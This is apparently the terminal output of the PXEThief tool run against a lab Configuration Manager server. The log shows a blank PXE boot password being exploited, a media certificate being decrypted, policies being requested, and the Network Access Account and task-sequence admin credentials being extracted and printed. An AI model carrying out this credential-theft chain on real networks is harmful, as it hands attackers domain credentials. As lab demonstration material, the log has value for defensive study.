 ```

/home/labadmin/PXEThief/env/lib/python3.10/site-packages/scapy/sendrecv.py:726: SyntaxWarning: 'iface' has no effect on L3 I/O sr1(). For multicast/link-local see https://scapy.readthedocs.io/en/latest/usage.html#multicast
  warnings.warn(
Begin emission

Finished sending 1 packets
*
Received 1 packets, got 1 answers, remaining 0 packets

[!] Variables File Location: \SMSTemp\2024.10.18.16.34.38.0001.{F43C5F34-8623-40AA-88B1-875EED83DEDF}.boot.var
[!] BCD File Location: \SMSTemp\2024.10.18.16.34.36.06.{F43C5F34-8623-40AA-88B1-875EED83DEDF}.boot.bcd
[!] Blank password on PXE boot found!
[!] Attempting automatic exploitation.
[+] Media variables file to decrypt: 2024.10.18.16.34.38.0001.{F43C5F34-8623-40AA-88B1-875EED83DEDF}.boot.var
[+] Password bytes provided: 0x5300fdfff1ffbdff75008cff42001c000a00a1ff
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to PS1_{09821541-3BE2-421C-AA13-D1E0AD_SMSTSMediaPFX.pfx. Certificate password is {09821541-3BE2-421C-AA13-D1E0AD
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: http://SITE-SERVER.APERTURE.LOCAL
[+] Generating Client Authentication headers using PFX File...
[+] CCMClientID Signature Generated
[+] CCMClientTimestamp Signature Generated
[+] ClientToken Signature Generated
[+] Retrieving x64UnknownMachineGUID from MECM MP...
[+] Requesting policy assignments from MP...
[+] 47 policy assignment URLs found!
[+] Requesting Network Access Account Configuration from: http://SITE-SERVER.APERTURE.LOCAL/SMS_MP/.sms_pol?{c6fe32fb-7e9c-4776-abe3-2a6d107447f1}.5_00
[+] Requesting Task Sequence Configuration from: http://SITE-SERVER.APERTURE.LOCAL/SMS_MP/.sms_pol?PS120003-PS100009-6F6BCC28.1_00

[+] Decrypting Network Access Account Configuration
[+] Extracting password from Decrypted Network Access Account Configuration

[!] Network Access Account Username: 'APERTURE\networkaccess'
[!] Network Access Account Password: 'SuperSecretPassword'
[!] Network Access Account Username: 'APERTURE\networkaccess'
[!] Network Access Account Password: 'SuperSecretPassword'

[+] Decrypting Task Sequence Configuration

[!] Successfully Decrypted TS_Sequence XML Blob in Task Sequence 'Task Sequence 1'!
[+] Attempting to automatically identify credentials in Task Sequence 'Task Sequence 1':

[!] Possible credential fields found!

In TS Step "Apply Windows Settings":
OSDRegisteredUserName - admin
OSDLocalAdminPassword - SuperSecretPassword

In TS Step "Apply Network Settings":
OSDJoinAccount - aperture\dja
```

